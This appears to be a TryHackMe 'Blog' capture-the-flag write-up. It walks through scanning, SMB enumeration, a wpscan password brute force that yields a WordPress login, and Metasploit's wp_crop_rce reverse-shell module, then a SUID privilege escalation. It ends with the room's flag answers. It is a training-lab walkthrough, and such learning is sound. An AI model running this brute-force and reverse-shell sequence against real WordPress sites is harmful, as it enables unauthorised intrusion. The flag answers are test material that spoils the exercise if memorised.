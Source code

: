 ```yaml
---
description: Billy Joel made a Wordpress blog!
---
```


# Blog

## **Description**

Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!

Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...

_In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file._

_Credit to_ [_Sq00ky_](https://tryhackme.com/p/Sq00ky) _for the root privesc idea ;)_

The images used in this room have been used with the author's permission or in accordance with [Section 107 of the U.S. Copyright Act](https://www.copyright.gov/title17/92chap1.html#107).

<figure><img src="../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

### Nmap

```bash
nmap -A -Pn 10.10.89.129
```

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

I found out some smb, let use `enum4linux` Thank ([https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb#ipcusd-share))

### enum4linux

```bash
enum4linux -a 10.10.89.129
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption><p>Found BillySMB</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Found bjoel username</p></figcaption></figure>

### SMBClient

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Found some picture</p></figcaption></figure>

### Crack the images

```bash
steghide extract -sf Alice-White-Rabbit.jpg
```

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption><p>Rabbit Hole!</p></figcaption></figure>

### Directory Enumeration

```bash
dirsearch -u http://10.10.89.129
```

Go back to the website that I already running **dirsearch.** I found the WordPress login.

<figure><img src="../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Let try the username that found from **enum4linux**.

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption><p>Bingo!</p></figcaption></figure>

### WPScan

```bash
wpscan --url http://blog.thm --enumerate u
```

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption><p>WordPress version 5.0</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption><p>Found more user kwheel</p></figcaption></figure>

Now, we know the WordPress version. While running the wpscan for brute-force the password. I found some vulnerability that I can reverse shell. [https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/](https://www.rapid7.com/db/modules/exploit/multi/http/wp\_crop\_rce/)

```bash
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel,bjoel -t 64 
```

* \-t 64: Sets the number of threads to `64`, controlling how many password attempts can be made in parallel

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption><p>kwheel : cutiepie1</p></figcaption></figure>

### Metasploit

```bash
msf > use exploit/multi/http/wp_crop_rce
msf > set RHOST blog.thm
msf > set LHOST <YOUR_IP>
msf > set LPORT <YOUR_PORT>
msf > set USERNAME kwheel
msf > set PASSWORD cutiepie1
msf > run 
```

<figure><img src="../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

### Create Shell environment

```bash
SHELL=/bin/bash script -q /dev/null
```

```bash
find / -type f -user root -perm -u=s 2>/dev/null
```

Used to search the entire filesystem (`/`) for files (`-type f`) owned by the user `root` (`-user root`) that have the setuid bit set (`-perm -u=s`), suppressing error messages (`2>/dev/null`)

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Check all file and found interesting thing.

```bash
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
/usr/sbin/checker
Not an Admin
```

```
ltrace checker
```

`ltrace`, it prints a list of all library calls made by the program as they occur.

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption><p>DONE!</p></figcaption></figure>

## Answer the questions below

### root.txt

```bash
find / -type f -name "root.txt"
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>9a0b2b618bef9bfa7ac28c1353d9f318</p></figcaption></figure>

```
ANS: 9a0b2b618bef9bfa7ac28c1353d9f318
```

### user.txt

```bash
find / -type f -name "user.txt"
```

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption><p>c8421899aae571f7af486492b71a8ab7</p></figcaption></figure>

```
ANS: c8421899aae571f7af486492b71a8ab7
```

### Where was user.txt found?

```bash
ANS: /media/usb/user.txt
```

### What CMS was Billy using?

<pre><code><strong>ANS: wordpress
</strong></code></pre>

### What version of the above CMS was being used?

```
ANS: 5.0
```

## Follow Me

* **LinkedIn**: [https://www.linkedin.com/in/waris-damkham/](https://www.linkedin.com/in/waris-damkham/)
* **Website**: [https://waris-damkham.netlify.app/](https://waris-damkham.netlify.app/#home)
